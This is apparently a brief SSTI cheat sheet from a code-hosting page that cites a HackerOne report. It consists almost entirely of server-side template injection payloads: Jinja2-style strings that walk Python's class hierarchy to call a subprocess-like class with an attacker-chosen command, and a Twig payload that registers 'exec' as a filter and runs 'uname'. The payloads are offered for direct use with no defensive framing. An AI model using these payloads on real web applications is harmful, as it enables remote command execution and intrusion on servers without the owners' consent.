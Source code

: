 # SSTI

Server Side Template Injection - ```{{'7*'7}}```.  See https://hackerone.com/reports/125980 for an example.

```python
example.com/{{''.__class__.mro()[1].__subclasses__()}}
example.com/{{''.__class__.mro()[1].__subclasses__()[X]}}          # X = int
example.com{{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} # COMMAND = choose your own adventure

{{''.__class__.mro()[2].__subclasses__()[233](["command", "argument"])}}
# the [] at the end creates an array
```

```
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}
```



